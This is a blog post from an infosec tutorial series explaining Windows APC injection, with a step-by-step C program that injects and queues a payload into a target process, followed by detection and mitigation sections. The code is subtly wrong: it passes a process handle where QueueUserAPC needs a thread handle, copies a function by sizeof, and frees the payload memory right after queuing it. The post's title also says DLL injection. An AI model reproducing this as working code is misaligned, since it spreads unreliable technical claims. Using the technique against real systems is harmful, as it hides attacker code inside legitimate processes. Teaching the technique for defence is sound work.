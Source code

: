 ```yaml
---
layout: single
title: "Payload Unleashed: DLL Injection"
date: 2024-03-01
classes: wide
header:
  teaser: /assets/images/maldev.png
categories:
  - infosec
tags:
  - windows
  - malware
  - payload-unleashed
---
```

# Understanding Asynchronous Procedure Calls (APC)

[Asynchronous Procedure Calls (APC)](https://learn.microsoft.com/en-us/windows/win32/sync/asynchronous-procedure-calls) are a fundamental mechanism in Windows operating systems, facilitating asynchronous execution of code within a process context. APCs are typically used for tasks like I/O completion, thread execution, and more. However, attackers exploit this mechanism to inject and execute malicious code within legitimate processes.

# How APC Injection Works

APC injection involves the insertion of malicious code into the address space of a target process by queuing a fake APC to be executed at a specific point in the process. This technique enables attackers to execute arbitrary code in the context of a legitimate process, thereby bypassing traditional security mechanisms.

The injection process typically follows these steps:

1. **Process Selection**: The attacker identifies a target process where they intend to inject malicious code.
2. **Memory Allocation**: They allocate memory within the target process to store the malicious payload.
3. **Payload Injection**: The attacker copies their malicious code into the allocated memory space of the target process.
4. **APC Queuing**: A fake APC is queued to the target process, pointing to the address of the malicious code.
5. **Execution**: When the target process enters an alertable state, the queued APC is executed, leading to the execution of the malicious payload.

# Hands-On: APC Injection with C Code Snippet

## Understanding the APC Injection Process

Before delving into the code snippet, let's understand the purpose of each function used in the APC injection process and its significance within the attack:

1. **OpenProcess()**: This function is used to open a handle to the target process identified by its process ID (`<TARGET_PROCESS_ID>`). By opening the target process, we gain the necessary access rights to perform operations such as memory allocation and writing.
    
2. **VirtualAllocEx()**: Once the target process is opened, this function is employed to allocate memory within the target process's address space. This allocated memory will be used to store the malicious payload, enabling its execution within the context of the target process.
    
3. **WriteProcessMemory()**: With memory allocated within the target process, this function is utilized to write the malicious payload (in this case, the `MaliciousCode` function) into the allocated memory space. By writing the payload into the target process's memory, we prepare for its execution within the context of the process.
    
4. **QueueUserAPC()**: This function is central to the APC injection technique. It queues an Asynchronous Procedure Call (APC) to the target process, specifying the address of the malicious payload to be executed. When the target process enters an alertable state, typically during certain system calls or when waiting for I/O operations, the queued APC is scheduled for execution.

5. **Malicious Payload Execution**: Upon entering an alertable state, the queued APC is executed within the target process. As a result, the address of the malicious payload is invoked, leading to the execution of the malicious code within the context of the legitimate process.

## C Code Snippet
Now, let's dive into the provided C code snippet, which demonstrates the APC injection process:

```c
#include <windows.h>
#include <stdio.h>

// Function pointer for the malicious payload
typedef VOID (*MALICIOUS_PAYLOAD)();

// Malicious payload to be executed
VOID MaliciousCode()
{
    MessageBoxA(NULL, "Malicious payload executed!", "APC Injection", MB_OK | MB_ICONWARNING);
}

int main()
{
    // Open the target process for injection
    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, <TARGET_PROCESS_ID>); // Replace <TARGET_PROCESS_ID> with the process ID of the target process

    if (hProcess == NULL)
    {
        printf("Failed to open target process. Error code: %d\n", GetLastError());
        return 1;
    }

    // Allocate memory within the target process for the malicious payload
    LPVOID pPayloadAddress = VirtualAllocEx(hProcess, NULL, sizeof(MaliciousCode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    if (pPayloadAddress == NULL)
    {
        printf("Failed to allocate memory in target process. Error code: %d\n", GetLastError());
        CloseHandle(hProcess);
        return 1;
    }

    // Write the malicious payload to the allocated memory in the target process
    if (!WriteProcessMemory(hProcess, pPayloadAddress, &MaliciousCode, sizeof(MaliciousCode), NULL))
    {
        printf("Failed to write malicious payload to target process. Error code: %d\n", GetLastError());
        VirtualFreeEx(hProcess, pPayloadAddress, 0, MEM_RELEASE);
        CloseHandle(hProcess);
        return 1;
    }

    // Queue the APC to the target process
    if (!QueueUserAPC((PAPCFUNC)pPayloadAddress, hProcess, NULL))
    {
        printf("Failed to queue APC to target process. Error code: %d\n", GetLastError());
        VirtualFreeEx(hProcess, pPayloadAddress, 0, MEM_RELEASE);
        CloseHandle(hProcess);
        return 1;
    }

    printf("APC injected successfully!\n");

    // Clean up
    VirtualFreeEx(hProcess, pPayloadAddress, 0, MEM_RELEASE);
    CloseHandle(hProcess);

    return 0;
}
```

This code snippet encapsulates the entire process of APC injection, from opening the target process to executing the malicious payload within its context. 

# Detection challenges

Detecting APC injection presents significant challenges for security solutions due to its stealthy nature. Traditional antivirus software and endpoint detection mechanisms often struggle to identify such attacks due to the following reasons:

1. **Process Context**: Since APCs execute within the context of a legitimate process, distinguishing between legitimate and malicious APCs becomes challenging.
2. **Dynamic Nature**: APC injection involves dynamic memory allocation and code execution, making it harder to detect using static analysis techniques.
3. **Minimal Footprint**: Malicious APCs leave minimal footprint, making them harder to detect compared to traditional injection techniques.

# Mitigation Strategies

While APC injection poses a formidable challenge, there are several mitigation strategies that organizations can employ to bolster their defenses:

1. **Behavioral Analysis**: Implement behavioral analysis techniques to monitor process behavior and detect anomalous activity indicative of APC injection.
2. **Code Signing**: Enforce code signing policies to ensure that only trusted code can be executed within processes, thereby preventing the execution of unsigned or malicious code.
3. **Memory Protection**: Employ memory protection mechanisms such as Data Execution Prevention (DEP) and Address Space Layout Randomization (ASLR) to mitigate the impact of memory-based attacks.
4. **API Monitoring**: Monitor system APIs for suspicious activity related to APC manipulation and injection.

# Conclusion

In this post, we've explored the Asynchronous Procedure Calls (APC) injection. APC injection involves inserting malicious code into the address space of legitimate processes, leveraging the Windows operating system's mechanism for asynchronous code execution. 

Through a hands-on demonstration with a C code snippet, we've showcased the practical implementation of APC injection. Explore more in the "Unraveling the Malware Mysteries" series at [Unraveling the Malware Mysteries](https://noelit911.github.io/Unraveling-the-Malware-Mysteries/).